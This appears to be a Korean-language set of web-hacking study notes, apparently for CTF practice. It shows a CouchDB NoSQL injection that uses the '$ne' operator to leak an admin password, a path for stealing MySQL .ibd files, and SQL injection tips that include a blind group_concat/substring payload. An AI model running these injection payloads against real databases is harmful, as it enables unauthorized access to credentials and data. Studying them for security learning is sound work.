 객체 형태의 데이터를 입력받을 때 입력 값에 대한 검사가 부재하거나 미흡하다면 문제가 발생할 수 있음
selector 안에서 operator를 사용할 수 있는데, 연산자가 이에 포함됨
따라서 공격자가 조건 식을 만들고, 조건에 해당하지 않는 데이터를 모두 획득할 수 있음
아래는 각각 올바르게 데이터를 조회하는 모습과 연산자를 통해 데이터베이스의 중요 정보를 획득한 모습
이처럼 find 함수의 인자로 이용자의 입력 값이 전달되고, 문자열 타입이 아닌 객체 타입의 값을 입력할 수 있다면 데이터베이스의 중요 정보를 획득할 수 있음

		//정상적인 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'guest', 'upw': 'guest'}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'guest',
		   _rev: '1-22a458e50cf189b17d50eeb295231896',
		   upw: 'guest' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzppemFpeAJDlgkgjhLADZAxEP',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/

	//연산자를 포함한 공격 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'admin', 'upw': {'$ne': ''}}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'admin',
		   _rev: '2-142ddb6e06fd298e86fa54f9b3b9d7f2',
		   upw: 'secretpassword' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzJqbkZuaBJDlgkgjhLADVNBDR',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/



# idb파일
- 간혹 문제를 풀다보면 파일에 있는 데이터를 읽을 수 있는 경우가 생기는데 이를 이용해 db파일을 탈취할 수 있음
- 그 파일을 .ibd파일이라고 
- .ibd파일은`/var/lib/mysql/{database_name}/{c}.idb` 이런 경로로 존재




# Tip
### union select 컬럼개수 맞추기
' union select 1,2,3,4,5,6 이런식으로 노가다하는거보단
order by 8 이런식으로 하는게 찾기 편함
order by 8이면 8번째 행으로 정렬한다는 의미

허용이 된다면 sqlmap이 최고

### group_concat
자동화 스크립트 사용할 때, 동시에 여러 컬럼의 데이터를 가져와야 하는 경우가 있다.
이때, group_concat을 사용하면 동시에 여러 컬럼 데이터를 참조할 수 있다.
	31 and substring((select group_concat(table_name,0x3a,column_name) from information_schema.columns  WHERE table_schema = 'flag'),1,1)="w";